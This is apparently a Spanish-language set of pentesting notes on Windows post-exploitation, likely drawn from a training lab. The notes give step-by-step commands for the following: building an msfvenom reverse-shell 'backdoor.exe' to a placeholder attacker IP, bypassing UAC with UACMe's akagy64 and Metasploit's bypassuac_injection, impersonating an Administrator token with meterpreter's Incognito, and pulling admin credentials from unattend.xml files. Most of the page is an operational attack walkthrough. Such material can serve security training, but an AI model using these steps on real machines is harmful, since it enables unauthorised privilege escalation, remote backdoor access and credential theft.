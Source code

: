 <h1 align="center">POST EXPLOTACIÓN WINDOWS</h1>

## **Bypass UAC con UACMe**

El Control de Cuentas de Usuario (UAC) es la notificación que aparece en Windows cuando se intenta ejecutar un programa con permisos de administrador. UACMe es una herramienta que permite bypassear el UAC sin necesidad de ingresar la contraseña de un administrador local para elevar los privilegios de un programa.

### **Requisitos**

Es necesario tener control de un usuario dentro del grupo de administradores locales y que la configuración de UAC no se haya modificado desde la instalación de Windows.

### **Proceso**

Lo primero que debemos hacer es conseguir una sesión de meterpreter en la máquina víctima y migrarla a explorer.exe para conseguir una sesión de 64 bits.

![image](https://github.com/user-attachments/assets/516c78f1-b086-4d83-b71b-713da08df9f1)

Ahora, tenemos una sesión de meterpreter con el usuario admin. Este usuario está en el grupo de administradores locales, lo que le permite ejecutar programas con permisos de administrador, aunque dispone de bajos privilegios (por ejemplo, no puede ejecutar un payload con permisos de administrador)

![image](https://github.com/user-attachments/assets/89df7b86-ed70-4f44-b997-9dc96ee96168)

Para elevar los privilegios, nos descargamos el repositorio de UACMe desde github.

Vamos a bypasear el UAC para ejecutar este payload de msfvenom para crear una sesión de meterpreter con para aumentar nuestros privilegios:

- msfvenom -p windows/meterpreter/reverse_tcp LHOST=\*ip\*LPORT=1234 -f exe > backdoor.exe

Después, en Metasploit, utilizamos multi/handler y establecemos el mismo payload que en msfvenom:

- set PAYLOAD windows/meterpreter/reverse_tcp

Volvemos a la sesión de meterpreter, vamos a la carpeta C:\\temp y subimos nuestro payload y el ejecutable Akagy64:

- upload backdoor.exe
- upload akagy64
- shell

Para ejecutar backdoor.exe con permisos de administrador, utilizamos akagy64 con el siguiente comando CON RUTA COMPLETA:

/root/Desktop/tools/UACME

- .\\akagy64 23 C:\\temp\\backdoor.exe

La _key_ depende de la versión de Windows. El número a utilizar se encuentra en el repositorio de GitHub. Para instalar paquetes en Windows 7, utilizamos el número 23, que instala el packet manager, permitiendo la instalación de paquetes.

Si vamos al multi/handler y establecemos el mismo payload que en msfvenom, hemos conseguido una sesión de meterpreter de altos privilegios:

![image](https://github.com/user-attachments/assets/4195d38d-42bf-4660-8dfe-b7ff7fecb788)

Para conseguir el permiso de AUTHORITY/System, debemos migrar a otro proceso que esté ejecutando este usuario. Así, habremos pasado del usuario admin con altos privilegios al administrador local.

## **Bypass UAC con METASPLOIT**

- use exploit/windows/local/bypassuac_injection
- set session 1
- set TARGET 1
- set PAYLOAD windows/x64/meterpreter/reverse_tcp

## **ACCESS TOKEN IMPERSONATION**

### **Elevación de Privilegios Mediante Suplantación de Tokens en Windows**

Los tokens de acceso de Windows son el principal elemento del proceso de autenticación y son creados y distribuidos por el servicio "Local Security Authority Subsystem Service (LSASS)". Estos tokens son generados por winlogon.exe cada vez que un usuario se autentica correctamente. El token contiene información del usuario autenticado y los privilegios asociados a un proceso, y se utiliza para restringir el acceso de los usuarios, determinando qué pueden y no pueden ejecutar.

###

### **Tipos de Tokens de Acceso**

1. **Impersonate-level tokens (tokens suplantados):**
    - Permiten actuar totalmente como el usuario cuyo token estamos suplantando.
2. **Delegate-level tokens (tokens normales):**
    - Permiten actuar parcialmente como el usuario, con permisos limitados.

Para realizar el proceso de suplantación de un "Impersonate-level token" con la intención de elevar privilegios, el usuario al que tenemos acceso debe tener los siguientes privilegios:

![image](https://github.com/user-attachments/assets/2b359a2b-12fe-47d7-ba9d-489668ddaba2)

### **Uso de Incognito para Suplantar Tokens**

Incognito es una herramienta de meterpreter que permite suplantar tokens después de la explotación de una máquina. Aquí están los pasos detallados para su utilización:

1. **Acceso a la Máquina:**

- Una vez que hemos explotado una máquina y tenemos acceso a un usuario con bajos privilegios que tiene el privilegio de SeImpersonatePrivilege.

1. **Cargar Incognito en Meterpreter:**

Si no podemos migrar la sesión a otro proceso debido a la falta de permisos, cargamos Incognito:

- load incognito

1. **Listar Tokens Disponibles:**

- list_tokens -u

(Somos NT AUTHORITY\\LOCAL SERVICE y queremos suplantar el token del administrador)

![image](https://github.com/user-attachments/assets/d94e2866-ed62-47b1-8900-65d147235674)


1. **Suplantar el Token del Administrador:**

Suplantamos el token de acceso de “ATTACKDEFENSE\\Administrator”:

- impersonate_token "ATTACKDEFENSE\\Administrator"

![image](https://github.com/user-attachments/assets/bc9c98e1-74bc-4340-9821-a6ca7863cea4)

Con getuid podemos ver que ha cambiado nuestro usuario. Para poder comprobar nuestros privilegios sin que nos de ningún error tenemos que migrar la sesión a un servicio que lo esté ejecutando el usuario administrator, por ejemplo explorer.exe. Ahora comprobamos los privilegios del usuario:

![image](https://github.com/user-attachments/assets/fcc0b989-4a24-4fb1-8c33-25cb006c9d5b)

## **INSTALACIÓN DESATENDIDA**

Cuando se realiza una instalación desatendida (Proceso automático de instalación de Windows), se suele almacenar las credenciales del usuario administrador en las siguientes rutas:  

- C:\\Windows\\Pather\\unattend.xml
- C:\\Windows\\Pather\\autounattend.xml

Una vez localizamos este archivo podemos buscar la forma de logearnos con estas credenciales: psexec, winrm…
